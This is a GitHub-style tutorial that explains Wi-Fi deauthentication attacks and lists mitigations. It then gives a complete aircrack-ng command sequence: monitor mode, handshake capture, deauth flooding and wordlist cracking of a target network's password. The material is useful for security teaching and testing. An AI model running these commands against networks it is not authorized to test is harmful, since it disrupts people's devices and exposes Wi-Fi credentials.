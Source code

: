 # Wi-Fi Deauthentication and Password Cracking Demo 

## Introduction  

Wi-Fi is a *wireless networking technology* that allows devices to connect to the internet or communicate with each other wirelessly within a certain range.  
One of the vulnerabilities in Wi-Fi networks is their susceptibility to deauthentication attacks:  
this type of attack is possible on various versions of Wi-Fi, including `WEP`, `WPA`, and `WPA2`.  

<br/>

A deauthentication attack involves sending specially crafted packets to a Wi-Fi access point, causing connected devices to disconnect.  
When devices attempt to reconnect, they perform a handshake, a process that establishes a secure connection by exchanging cryptographic keys.  
During this handshake, the essential data needed to authenticate the client is temporarily exposed:  
**If an attacker captures this handshake, they can use various tools to attempt to crack the Wi-Fi password**.  

<br/>

This is possible because the handshake contains enough information to verify passwords against the cryptographic exchange, allowing attackers to try different passwords until they find the correct one.  


Red teamers can leverage deauthentication attacks not only to capture handshakes for password cracking but also to perpetrate Denial-of-Service (DoS) attacks.  
For example, during a physical penetration test, they can disconnect wireless IP cameras or other Wi-Fi devices, potentially disrupting security measures or critical operations.  

To mitigate these attacks, several measures can be implemented:  
 
1. **Use Strong, Unique Passwords:**  Ensure that Wi-Fi passwords are complex and not easily guessable.
 
2. **Enable WPA3:**  The latest Wi-Fi security protocol, WPA3, offers enhanced protection against deauthentication attacks.  
 
3. **Implement MAC Address Filtering:**  Although not foolproof, this can add an additional layer of security by restricting access to known devices.  
 
4. **Use Network Segmentation:**  Separate critical devices and services onto different network segments to limit the impact of an attack and never connect critical devices via WiFi.  
 
5. **Monitor Network Traffic:**  Regularly monitor for unusual activity that might indicate a deauthentication attack.



## Instructions

### Alfa Adapter Setup 
Before performing any Wi-Fi deauthentication or password cracking activities, you need a compatible wireless adapter. 

I will use an "old" **Alfa AWUS036NHA**.  
[*Alfa*](https://alfa-network.eu/) adapters are a popular choice for this purpose due to their support for monitor mode and packet injection capabilities.  

1. **List USB Devices:** 
First, ensure your wireless adapter is recognized by the system:


```sh
lsusb
```

Look for the entry:


```console
Qualcomm Atheros Communications AR9271 802.11n
```
If this does not appear (particularly if you're working within a virtual machine), add the device via *VM -> Removable Devices*.  
 
2. **Install Necessary Drivers:** 
On a new Debian installation, you may need to install the appropriate drivers.  
Use the following commands to update your package list and install the driver:  


```sh
sudo apt update
sudo apt install realtek-rtl88xxau-dkms
```
**Note**: The `realtek-rtl88xxau-dkms` package is for Realtek chipsets.  
If using an Alfa AWUS036NHA with an Atheros chipset, the drivers should generally be included in the kernel.
 
3. **Verify Wireless Interface:** 
To check if the wireless interface is recognized, use:


```sh
sudo iwconfig
```

You should see an entry similar to:


```vbnet
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

Alternatively, you can list network interfaces with:


```sh
ip link show
```

### Deauthentication Attack 

Performing a deauthentication attack on a Wi-Fi network requires placing your wireless adapter into monitor mode and then using a series of tools from the `aircrack-ng` suite.
 
1. **Put Your Wireless Interface in Monitor Mode:** 
Switch your wireless interface to monitor mode to capture packets:


```sh
sudo airmon-ng start wlan0
```
This creates a new interface, typically named `wlan0mon`.
 
2. **Discover Wireless Networks:** Use `airodump-ng` to scan for available wireless networks:

```sh
sudo airodump-ng wlan0mon
```

Note the BSSID (MAC address) and channel of the target network.
 
3. **Capture Target Network Details:** 
Focus your capture on the target network to collect packets:


```sh
sudo airodump-ng --bssid <TARGET_BSSID> --channel <CHANNEL> --write <OUTPUT_FILE> wlan0mon
```
Replace `<TARGET_BSSID>`, `<CHANNEL>`, and `<OUTPUT_FILE>` with the appropriate values for your target.
 
4. **Perform the Deauthentication Attack:** 
Send deauthentication packets to disconnect clients from the target network:


```sh
sudo aireplay-ng --deauth <NUMBER_OF_DEAUTH_PACKETS> -a <TARGET_BSSID> -c <TARGET_CLIENT_MAC> wlan0mon
```
 
  - `<NUMBER_OF_DEAUTH_PACKETS>`: Number of deauth packets to send (0 for infinite).
 
  - `<TARGET_BSSID>`: BSSID of the target network.
 
  - `<TARGET_CLIENT_MAC>`: MAC address of the target client (optional for broadcasting to all clients).
 
5. **Crack the Password:** 
Once you have captured the necessary handshake packets, you can attempt to crack the Wi-Fi password:


```sh
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_BSSID> attack_capture-01.cap
```
 
  - `-w /usr/share/wordlists/rockyou.txt`: Path to the wordlist file.
 
  - `-b <TARGET_BSSID>`: BSSID of the target network.
 
  - `attack_capture-01.cap`: The file containing the captured handshake packets. 


The following video demonstrates the process of capturing a handshake and subsequently cracking the password from the captured packets:  



https://github.com/R3DRUN3/sploitcraft/assets/102741679/16497005-7909-48c2-af11-b84a2cb7bbdf

